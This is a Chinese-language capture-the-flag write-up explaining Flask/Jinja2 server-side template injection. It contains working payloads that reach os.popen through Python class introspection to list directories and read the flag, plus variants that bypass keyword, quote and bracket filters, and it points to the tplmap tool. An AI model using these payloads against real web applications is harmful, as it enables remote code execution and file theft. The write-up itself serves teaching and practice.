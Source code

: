 

![img](https://peekaboo.show/content/images/2022/11/504c38662c5107b7a08c8e8a4544b479.png)



#### 0、知识点与工具

>   Flask SSTI模板注入

>   远程代码执行

>   Python中内置属性：__class__、__bases__、__subclass__、__init__、OS模块

>   工具burpsuite



#### 1、什么是SSTI模板注入

>   这东西也就是服务端模板注入攻击，将用户输入的东西作为Web的应用模板的一部分，然后进行渲染执行，从而导致敏感信息泄露或者代码执行



#### 2、Flask又是啥

>   这玩意是一个用Python编写的Web应用程序框架‌
>   ‌ 它是运行在VirtualEnv中，而这个VirtualEnv是一个虚拟的Python环境构建器

这玩意是怎么使用的，来看个小案例

‌

```c
# 首先导入这个框架
from flask import Flask
app = Flask(__name__)

# route表示网址访问url，这是/表示这里是网址的主入口
@app.route('/')
def hello_world():
	# 然后会返回一个字符串
   return 'Hello World'
   
   
   
# 改变一下让其返回一个页面
@app.route('/')
def hello_world():

# 这里就会放回hello,html页面，不过hello.html必须放在templates文件夹
# 因为render_template('hello.html')== render_template('./templates/hello.html')
   return render_template('hello.html')



# 在改变一下加入一个模板变量
@app.route('/')
def hello_world():
	
    # 定义一个变量，用于让他展示在html页面上
    str = 'Hello'
    
	# 然后会返回一个字符串
   return render_template('hello.html',str=str)
   
   # 然后就需要在hello.html中使用这个变量
   # <body>
   #	{{str}}
   # </body>
   # 然后html中就会显示这个变量的值
   
   

 # 那么要处理用户传入的参数就得这么写
@app.route('/')
def hello_world():
    id = request.args.get('id')
    return render_template('hello.html',id=id)
 

if __name__ == '__main__':
   app.run()
```



>   在html模板中,{{}}之间的内容会被当做表达式进行执行,并将结果输出到页面上

>   然后就阔以去页面上做测试了

#### 3、尝试

>   首先一进入网页的样子是这样的

>   阔以看到有一个提示，叫我们尝试以get方式传入一个name参数

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221118225530.png)



>   也就是说name这可以尝试模板注入，然后可以让name的值为{{2*2}}看看是否会执行出结果





![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/1000000000000007.png)

‌

>   可以发现页面发生了改变，表达式被执行，如果不存在漏洞的话，页面是会显示{{2*2}}这个字符串，并不会将2*2的结果计算出来

#### 4、解题

‌



>   在Python的环境中，一般能够协助我们进行远程代码执行可能会想到system()(这里用不到)、还有OS模块(这玩意可以操作文件和目录)，但这里并不能直接使用到，所以得另辟蹊径，

-   因为Python也有对象的概念，因为object是所有类的基类，在没有指定哪个类继承哪个类的情况下，则默认继承object类
    -   然后我们可以先传入一个参数，然后通过__class__获取这个参数的基本类类型
    -   然后在通过__bases__获取这个基本类的父类,也就是object类
    -   然后在通过__subclass__()魔术方法获取object类的所有子类
    -   然后在子类中找到关于os模块的类
    -   然后在使用__init__将其初始化

```py
每个类都有的__class__,表示当前类
print(''.__class__)//获取当前对象所使用的类，此处为字符串
print(().__class__)//元组
print([].__class__)//列表
print({}.__class__)//字典



每一个类都有一个__bases__属性，列出其基类
print(''.__class__.__bases__)//base不加s输出当前父类，加s输出所有的父类(元组)

获取子类集合
print(''.__class__.__bases__[0].__subclasses__())
print(len(''.__class__.__bases__[0].__subclasses__()))//类的个数
```

‌

>   那么要进行命令执行的流程就是：获取基本类 -> 拿到基本类子类 -> 在子类中找到关于命令执行和文件读写的类，也就是os._wrap_close‌
>   ‌然后输入一些值会发现有关键字过滤，如：class、subclass、bases、init‌
>   ‌绕过的方法也很简单，使用拼接绕过即可

>   执行这面这段就阔以获取所有子类，然后子类中找到os.wrap_close的索引位置

‌

```
/?name={{1['__cl'+'ass__']['__bas'+'es__'][0]['__subcl'+'asses__']()}}
```



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/dfhdfhdshdhdfhdf.png)



‌

>   查看一下网站根目录

‌

```
?name={{''['__cla'+'ss__']['__bas'+'es__'][0]['__subcl'+'asses__']()[117]['__in'+'it__'].__globals__['popen']('ls /').read()}}
```



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/1000000000000001.png)



‌



>   最总执行下面代码获取flag

‌

```
?name={{''['__cla'+'ss__']['__bas'+'es__'][0]['__subcl'+'asses__']()[117]['__in'+'it__'].__globals__['popen']('tail /fla*').read()}}
```



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221119151042.png)



### 5、扩展

-   如果flag是在配置文件中那么可以直接传入 【{{config}}】就阔以拿到

-   如果被过滤掉引号，那么可以使用http_get

    -   ```
          ?name={{().__class__.mro__.__getitem__(1).__subclasses__().__getitem__(138).__init__.__globals__.get(request.args.func)(request.args.cmd).read()}}&func=popen&cmd=dir
        ```

-   过滤掉了方括号

‌

```
原payload:
print(''.__class__.__bases__[0].__subclasses__())
print(''.__class__.__mro__[1].__subclasses__())
如果后端对[]进行了过滤
print(''.__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(138))
print(''.__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(138).__init__)
print(''.__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(138).__init__.__globals__.get('popen')('dir').read())
print(''.__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(138).__init__.__globals__.get('__builtins__').get('open')('flag.txt').read())//get()方式绕过
```

-   自动化注入

```
git clone https://github.com/epinna/tplmap.git
pip install -r requirements.txt
python tplmap.py -u
```



‌
